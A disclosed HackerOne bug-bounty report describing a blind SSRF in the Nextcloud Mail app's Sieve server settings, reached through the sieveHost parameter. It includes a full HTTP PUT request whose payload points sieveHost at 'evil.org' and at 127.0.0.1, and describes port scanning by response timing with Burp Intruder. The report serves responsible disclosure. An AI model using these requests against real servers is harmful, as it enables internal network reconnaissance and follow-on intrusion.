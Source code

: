 # Mail app - Blind SSRF via Sierve server fonctionnality and sieveHost parameter

## Report Details
- **Report ID**: 1741525
- **URL**: https://hackerone.com/reports/1741525
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-10-18T19:24:46.738Z
- **Disclosed**: 2023-02-06T21:27:57.263Z

## Reporter
- **Username**: supr4s
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Hi everyone,
I would like to report another  Blind SSRF vulnerability through the Nextcloud Mail application.

Tested on latest Mail release : `2.0.1`

## Steps To Reproduce:

Firstly, this report is similar to #1736390 except that it touches a new parameter and a different endpoint.

When adding a filter via a sieve filter server (`mail` application => added mailbox => settings => Sieve filter server), the following request is made : 

```
PUT /apps/mail/api/sieve/account/5 HTTP/2
Host: redacted
Cookie: redactedr
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: application/json, text/plain, */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
Requesttoken: redacted
Content-Length: 117
Origin: redacted
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"sieveEnabled":true,"sieveHost":"evil.org","sievePort":"80","sieveUser":"","sievePassword":"","sieveSslMode":"none"}
```

The SSRF is found in the `sieveHost` parameter, and provided that the `sieveSslMode` parameter is set to `none`.

```
{"sieveEnabled":true,"sieveHost":"127.0.0.1","sievePort":"80","sieveUser":"","sievePassword":"","sieveSslMode":"none"}
```

Via the Burp Intruder tool, I will guess the open ports on my Nextcloud server. Response time less than 100ms => closed port. Response time higher than 5000ms = open ports and service listening on them.

{F1992720}

Result from Burp Intruder on my NC server : 

{F1992724}

```
Port 80 - Apache2 service
Port 443 - Apache2 service
Port 2222 - SSH ! (critical)
Port 6060 - CrowdSec
Port 8080 - CrowdSec
Port 3306 - MySQL
Port 5432 -  PostgreSQL
Port 6379 - My Redis instance for Nextcloud
```

## Impact

From [OWASP](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/):

> SSRF flaws occur whenever a web application is fetching a remote resource without validating the user-supplied URL. It allows an attacker to coerce the application to send a crafted request to an unexpected destination, even when protected by a firewall, VPN, or another type of network access control list (ACL).

This vulnerability can allow a malicious individual to map the server and the company's internal network via Nextcloud. This is not demonstrated here in the report but one can scan private subnet ranges to try to guess : 

- Which IP addresses are responding
- Wich ports are open 
- Tried to exploit vulnerable services through this Blind SSRF

Here are some examples of Blind SSRF, which were used as a rebound, to exploit more critical vulnerabilities :

[Here](https://www.kernelpicnic.net/2017/05/29/Pivoting-from-blind-SSRF-to-RCE-with-Hashicorp-Consul.html) is an example of how to use an SSRF blind, as a rebound, to exploit a critical flaw.

Looking forward to exchanging.

Regards,
Supr4s

## Attachments
- Capture_d__cran_du_2022-10-18_21-09-37.png
- Capture_d__cran_du_2022-10-18_21-11-28.png
